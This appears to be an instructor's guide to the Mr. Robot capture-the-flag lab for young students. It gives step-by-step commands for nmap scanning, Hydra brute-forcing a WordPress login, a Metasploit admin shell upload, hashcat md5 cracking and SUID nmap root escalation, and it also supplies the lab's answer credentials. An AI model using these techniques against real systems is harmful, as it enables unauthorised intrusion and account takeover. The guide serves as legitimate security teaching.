









# Instructor <small>Mr. Robot Walkthrough</small>

General guidance:

1. Pay attention to the IP address- the VM may have a different IP address- if the kids copy & insert their material
2. Many command flags are case sensitive.  Pay attention to the case of command flags
3. Be sure to ask the kids if they want to take a break after finding a flag.  Going through all 3 may be too advanced for many of the kids.

## First Flag

Students should first use *ip* to see their network details, then they should use *nmap* to find what hosts sit on the network. They should see one of the hosts has ports 80 and 443 open, indicating it’s probably hosting a web application. They should navigate to this ip address in a browser. They should execute:

**Go to a Kali terminal**
```
ip addr show eth0
```
```
nmap -n 10.13.13.0/24
```


The first flag can be found by navigating to the robots.txt for the site in the browser. From there, students should see there is a file called key-1-of-3.txt they can navigate to. In addition, there will be an fsociety.dic file, they should download that now. The process for getting there is:

* **<web app ****ip**** address>/robots.txt**
* **<web app ****ip**** address>/key-1-of-3.txt**

## Second Flag

The second flag is a little trickier and will take a bit more time. First, students should try to navigate to a page that doesn’t exist. This should generate a 404 page; this will reveal that the site is powered via wordpress. One of the features of wordpress is the ability to login as either a user or an admin. This site is found on /wp-login.php. The steps are:

* **Navigate to <web app ****ip**** address>/****completelyfakepage**
* **Click ****Log in on the bottom left**



From here the student will need to do some password cracking to be able to login. First, they should try and login and see that the site will say if a username is correct or not. They should try elliot (name of the main character in the show) to see it’ll say the password is wrong. They should open developer tools and go to the network tab while trying to login from here they should look at a sample call to see what that looks like.

* **Open developer tools and go to network tab**
* **Login with a random username/password**
* **Try logging in with ****elliot**** as username**


This is where the fsociety.dic file comes into play. However, it contains a lot of duplicates and will slow down the cracking process, so it should be deduped first. This can be done via: *sort -u **fsocity.dic** -o **uniq.dic*

* **Go to <web app ****ip**** address>/****foscity.dic**** and download the file**
* **On the downloaded file**** (in a terminal)**** run: **** sort -u ****fsocity.dic**** -o ****uniq.dic**

From here, the student can run THC Hydra, a password cracking tool. Based on the knowledge they gained about the login calls and their failed attempt they should have everything they need to start the cracking a sample command is: *hydra -**l** **elliot** -P **uniq.dic** **<SERVER IP>** http-post-form “**/**wp-login.php:log**=^USER^&**pwd**=^PASS^:**F=is incorrect**”* which will take significantly less time. Finally, the correct login is: user: elliot, pass: ER28-0652. The process is as follows:

* **Go to a Kali**** terminal**
```
hydra -l elliot -P uniq.dic <web app ip address> http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:F=is incorrect”
```



Students are going to probably want to play around on the admin site for a while. Ultimately they’ll realize the second key isn’t on the web app. You should point out they likely need to get access onto the box to do that. Thankfully WordPress has a long history of vulnerabilities! Specifically one for performing reverse shell uploads. Metasploit is just the tool to do that for them.

Do make sure to talk about what Metasploit is and what makes it so useful.

The process is as follows:

* **Go to a Kali**** terminal**
* **Run ****ms****f****console**
* **use exploit/****unix****/****webapp****/****wp_admin_shell_upload**
* **set USERNAME ****elliot**
* **set PASSWORD ER28-0652**
* **set RHOST ****10.13.13.102**
* **set WPCHECK false**
* **exploit**
* **In ****meterpreter**** run shell**







The default meterpreter shell is kind of annoying and students won’t like it. They should setup a quick python script to give them a proper shell. The steps for this is as follows:

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
```
```
python /tmp/asdf.py
```


Students probably won’t know this but /home/ is really useful for finding info about who’s on the box. If they cd into the /home/ directory they should find there’s a user called robot. If they cd into /home/robot/ they should see two things: the second key file and an md5 hash of robot’s password. They won’t be able to access the file since they’re not robot. They should be able to see the hash in the password file though. The steps are as follows:

* **cd /home/**
* **cd robot/**
* **cat password.raw-md5**


You should let the student know that md5 is considered broken and easy to break. In addition, kali comes with a hash breaker called hashcat they can use to crack the password. Kali also comes with a wordlist they can use to brute force the password. This file is called rockyou. The steps for cracking it as follows:

* **Copy ****the hash in the password.raw-md5 file**
* **Go to a Kali terminal**
* **gunzip**** /****usr****/share/wordlists/rockyou.****txt.gz**
* **echo “<copied hash>” > password.md5**
* **hashcat**** --force -a 0 -m 0 password.md5 /****usr****/share/wordlists/rockyou.txt -o cracked.txt**
* **cat cracked.txt**




Now they have the username/password for the robot user. It’s robot/abcdefghijklmnopqrstuvwxyz essentially the password is all letters of the alphabet. Back on the server shell they should run su robot to login as them. Then they can access the second key. The process is as follows:

* **su**** robot**
* **cat key-2-of-3.txt**



## Third Flag

Finally, they’ll need to gain access to root, ideally the documentation explains what root is and why it’s so important to protect, but some reminding might be necessary. What they should also know is that some programs will actually run as a different user than the person that started the program, this means that while they ran the program, the program could be running as someone entirely different. Thus, if they can trick or get that program to open a shell, then they would be able to act as root if it’s set to run as root. This is where the setuid flag comes into play. They can find all programs with this flag set via: *find / -perm -4000 2> /dev/null*. The process is as follows:

```
find / -perm -4000 2> /dev/null
```



What they should find is a few programs with it set, most of them should make sense, but nmap should be strange to them. If they just run *nmap* with no flags, they should find it’s actually a version with an interactive mode! In addition, they should run ls -l on it and see it’s owned by root. Thus *nmap** --interactive* will actually grant them a root shell, from there a simple *!**sh* will grant a more usable shell with which they can navigate to /root and see the final flag. The steps are as follows:

* **ls -l /****usr****/local/bin/****nmap**
* **nmap**** --interactive **
* **!****sh**
* **whoami**
* **cd /root/**
* **ls**
* **cat key-3-of-3.txt**

